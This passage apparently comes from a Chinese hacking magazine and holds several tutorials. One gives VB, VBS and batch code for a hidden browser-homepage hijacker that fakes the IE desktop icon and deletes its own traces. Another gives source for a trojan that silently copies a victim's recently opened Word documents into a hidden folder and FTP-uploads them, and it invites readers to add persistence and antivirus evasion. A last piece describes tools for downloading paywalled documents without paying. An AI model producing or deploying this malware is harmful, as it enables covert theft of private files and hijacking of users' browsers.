

图3

我建议在外面上网的友子们把这个程序存到网盘里，在需要读取 U 盘数据的时候，下载回来开启写保护，这样就可以放心地插入 USB 设备了。等我们有数据要储存时，先确定本机是否有病毒，再取消掉写保护。这样我们的数据就可以高枕无忧了，再也不怕被病毒给感染了。

> （文中涉及的相关软件本期光盘已收录）

### VB编写另类IE主页锁定

主页锁定流氓插件的功能很简单，估计很多小菜都见过，无非就是修改一下注册表，或者直接在浏览器上动一下手脚，这次雪狐给大家介绍一款比较另类的 IE 主页锁定器。

#### 一、原理分析

这款另类 IE 主页锁定器是通过删除桌面上的 IE，然后自建一个 IE 的 Lnk 链接来替换。Lnk 链接所指定的主页链接，从 IE 主页选项中怎么修改都不会影响 Lnk 的链接，因为它们根本不是一回事。如图1所示，上面的 IE 图标是 Lnk 文件，下面的 IE 图标才是真正的 IE 浏览器。

#### 二、编辑代码

这里我们需要三段不同的代码机制来完成这项插件的构造。我们先来写 VB 代码部分，构建模式如图2所示。先把 Text1 和 Text2 设置为多行，MultiLine 为 True，ScrollBars 为 3-Both。Text1 为写入 VBS 代码，用于删除 IE 图标，并创建一个 Lnk 属性的 IE 图标。Text2 为写入 bat 批处理代码，用于删除程序所生成的 VBS 文件，做到不留痕迹。Timer1 是调用 Text2 中的批处理文件，设置为 1 秒即可。



图2



图1

```vb
Private Sub Form_Load()
    Dim a As Integer, b As Integer
    Open App.Path & "\ie.vbs" For Append As #1
    Print #1, Text1.Text
    '输出Text1中的内容保存为ie.vbs文件
    Close #1

    Open App.Path & "\del.bat" For Append As #2
    Print #2, Text2.Text
    '输出Text2中的内容保存为del.bat文件
    Close #2
End Sub

Private Sub Timer1_Timer()
    Shell ("del.bat")
    '调用del.bat文件
    Timer1.Enabled = False
    'Timer1结束
    End
End Sub
```

```vb
WshShell.Run "cmd /C reg add "&Chr(34)&"HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\HideDesktopIcons\NewStartPanel"&Chr(34)&" /v {871C5380-42A0-1069-A2EA-08002B30309D} /t REG_DWORD /d 1 /F",0,1
WshShell.Run "cmd /C reg add "&Chr(34)&"HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\HideDesktopIcons\ClassicStartMenu"&Chr(34)&" /v {871C5380-42A0-1069-A2EA-08002B30309D} /t REG_DWORD /d 1 /F",0,1
'删除桌面的IE图标
strDesktop = WshShell.SpecialFolders("Desktop")
WshShell.AppActivate strDesktop
WshShell.SendKeys "{F5}"
'发送F5刷新
```

然后我们先来写一段 VBS 代码，用 VBS 来删除 IE 图标并建立一个 IE 假图标，以下 VBS 代码复制到 Text1 中，当程序运行时会自动生成 ie.vbs 文件。

```vb
VBS代码调用：
Set WshShell = CreateObject("Wscript.Shell")
strLnkFile = WshShell.SpecialFolders("desktop") & "\Internet Explorer.lnk"
'这里是要建立的Internet Explorer.lnk文件
Set lnk = WshShell.CreateShortcut(strLnkFile)
lnk.TargetPath = Chr(34) & "C:\Program Files\Internet Explorer\IEXPLORE.EXE" & Chr(34)
lnk.Arguments = "www.xbug.org"
'定义Internet Explorer.lnk文件的地址是www.xbug.org
lnk.Description = ""
lnk.Save
WshShell.Run "cmd /c attrib +r "&Chr(34)&strLnkFile&Chr(34),0,1
```

最后，把下面简单的批处理代码插入到 Text2 中即可，通过批处理来删除 ie.vbs 文件，并删除自身。

```bat
bat批处理代码调用：
start "" "ie.vbs"
'运行ie.vbs文件
del ie.vbs
'删除ie.vbs文件
del %0
'删除自身
```

然后我们把 Form 的 Visible 属性设置为 False（不可见）即可，运行时就不会显示，然后生成一个 EXE 应用程序就是大功告成了。写到这里，雪狐给大家一个更好的思路：如何把生成的假 IE Lnk 文件保护起来，不被用户删除，希望大家开动脑筋。如果有思路了，可以到论坛与我讨论，我的 ID 是雪狐大仙。

（文中涉及的相关代码本期光盘已收录）

### Word文档窃取木马开发思路之VB篇

雪狐

有一些文档属于私密的文件，但是还会被一些黑客偷走，大多数都是用免杀远程控制，或者其他的后门木马来获取。本章雪狐将为大家介绍一款 Word 文档窃取木马的开发思路，让大家也来了解一下如何窃取 Word 文档。不过请大家不要做违法的事情，否则后果自负哦！

#### 一、原理分析

为了更简单地开发这款 Word 文档窃取木马，我们只获取电脑开始菜单内的“我最近打开的文档”，如图1所示。



图1

首先木马先获取 C:\Documents and Settings\用户\Recent\ 内的最近打开的文件，然后进行排除，把非 Word 文件全部排除出去，然后全部复制到木马建立的一个文件夹内，最后进行 FTP 上传。如图2所示。



图2

有些人就问了，为什么要把全部 Word 文档复制到一个木马新建的文件夹内呢？这样做的话会保证木马 FTP 上传更加稳定一些，不会因为文件夹名称的怪异或者空格较多导致无法 FTP 上传。这一点也是作者本人没有解决的，如果有朋友解决了这一点，请告知雪狐，我的论坛 ID：雪狐大仙。

#### 二、Word文件窃取木马编译

首先放置木马所需的控件，如图3所示。这里我们需要 ListBox、TextBox、Inet 各一个。ListBox 显示“我最近打开的文档”，TextBox 显示文档的名称，Inet 控制 FTP 上传。

在 Form 中，我们添加以下代码：

```vb
Private Declare Function GetUserName Lib "advapi32.dll" Alias "GetUserNameA" (ByVal lpBuffer As String, nSize As Long) As Long
Private Declare Function PathFileExists Lib "shlwapi.dll" Alias "PathFileExistsA" (ByVal pszPath ...)
```

```vb
Function GetTargetPath(ByVal LinkName As String)
    On Local Error Resume Next
    Dim Obj As Object
    Set Obj = CreateObject("Wscript.Shell")
    Dim Shortcut As Object
    Set Shortcut = Obj.CreateShortcut(LinkName)
    GetTargetPath = Shortcut.TargetPath
    Shortcut.Save
End Function

Private Sub Form1_Load()
    Dim s As Integer
    Dim getdir As String
    Dim aa As Long
    Dim len5 As Long
    Dim usern As String
    Dim docFile As String
    Dim path As String
    Dim fso As New FileSystemObject
    Me.Hide
    '设置窗体隐藏
    If PathFileExists("C:\docx") Then
    Else
        path = "C:\docx"  '如果docx文件夹不存在，新建一个文件夹
        MkDir path
        SetAttr path, vbHidden '设置文件夹隐藏属性
    End If
    len5 = 256
    usern = String(255, 0)
    '获取当前用户名称
    aa = GetUserName(usern, len5)
    usern = Left(usern, InStr(1, usern, Chr(0)) - 1)
    docFile = Dir("C:\Documents and Settings\" + usern + "\Recent\*.doc*.lnk", vbNormal)
    '获取最近打开的文档文件夹，排除非Word的文件
    Do While docFile <> ""
        List1.AddItem docFile
        '把“我最近打开的文档”中的lnk文件名称放入List1中
        docFile = Dir
    ...
```



```vb
Selected(i) = True
For s = 0 To List1.ListCount - 1
    '循环开始，循环获取文档，循环上传文档
    getdir = GetTargetPath("C:\Documents and Settings\" + usern + "\Recent\" + List1.List(s) + "")
    files = Left(List1.List(s), Len(List1.List(s)) - 4)

    '获取Lnk对应的文档地址
    If fso.FileExists(getdir) = True Then
        FileCopy getdir, "C:\docx\" & files
        '只复制存在的文档到docx文件夹
    End If

    Inet1.Protocol = icFTP
    Inet1.RemoteHost = "127.0.0.1"   'FTP服务器地址
    Inet1.RemotePort = 21            'FTP端口
    Inet1.UserName = "Username"      '用户名
    Inet1.Password = "Password"      '密码
    Inet1.Execute "", "PUT C:\docx\" + files + " " + files + ""

    '上传docx的文档
    ri = Inet1.StillExecuting
    Do While ri
        ri = Inet1.StillExecuting
        DoEvents
    Loop
Next
End Sub
```

最后生成 EXE 应用程序就可以使用了，本程序没有做自启动和一些躲避杀毒软件的防御功能，请大家开阔自己的思路，并完成这个程序。

（文中涉及的相关代码本期光盘已收录）

### 下载，就是要“免费”！

牛晓东

如今需要个什么资源的话，大家都习惯于借助百度或 Google 来搜索，找到之后进行下载。然而很多时候我们总会碰到那些需要消费各种积分来换取所需资源下载链接的情况，比如豆丁、百度文库和 CSDN 等等，此时我们可以借助一些小工具来实现免费、免积分的“空手套白狼”下载。

在 Docin 界面左上角的“Docin 网址”处把待收费下载的豆丁文档地址（比如 http://www.docin.com/p-15092784.html）粘贴一下，然后点击后面的“下载”按钮，选择“另存为”的路径之后即可开始进行收费豆丁文档的下载（如图1）。根据待下载文档的大小及网速的不同，最终“豆丁文档下载器”就会顺利完成收费文档的免费下载，提示“处理成功”。

#### 一、“豆丁文档下载器”下载豆丁

豆丁网（http://www.docin.com/）号称是世界最大的文档销售与分享社区，其中有许多非常不错的资料。双击运行“豆丁文档下载器”（Docin.exe），如果出现“Docin.exe-应用程序错误：应用程序正常初始化（0x0000135）失败。请单击‘确定’，终止应用程序”的错误提示窗口的话，说明本地机器上缺少 Microsoft .NET Framework 的支持，可以上网搜索一个下载安装运行即可。



#### 二、“易读”通吃豆丁和百度文库

解压缩之后双击运行其中的“DocLibDownload.exe”，在“易读文档下载器”的运行界面中，将之前在百度文库（http://wenku.baidu.com/）搜索到的目标文件URL（如http://wenku.baidu.com/view/0bd5db1ca76e58fafab0032a.html，需付2个财富值）粘贴到“页面地址”处（如图2），不需要其它任何操作，“易读文档下载器”就会自动进行该文件的下载信息分析、下载及转换等工作。当出现“资源文件转换完成”提示之后，我们就会在之前的解压目录（“下载百度文库”）中得到这个名为“无认知训练在高中物理教学中的实践研究.pdf”的PDF文件，用PDF阅读器打开看一下，跟在百度文库中看到的内容一样（如图3），免费下载成功！

（右栏续）……的白圈，说明不可以，需进行下一步。点击“文字识别”按钮（带有“字A”），此时鼠标样式就会变成中间小圆圈、周围十字型，用鼠标拖动的方式将所需的部分选中（周围出现矩形框），松开鼠标后很快就会出现“文字识别结果”小窗口（如图4）。然后就可以点击下方的“复制到剪贴板”或直接“发送到WPS/Word”，这样就可以进行文本的二次编辑了。









#### 三、CAJViewer对付PDF进行OCR文字识别

不过还是有个问题，那就是下载得到的大部分都是PDF格式的较“死”的文件，不如纯文字的给力。怎么办呢？可以试一下OCR文字识别，虽说像Office 2003、Microsoft OneNote 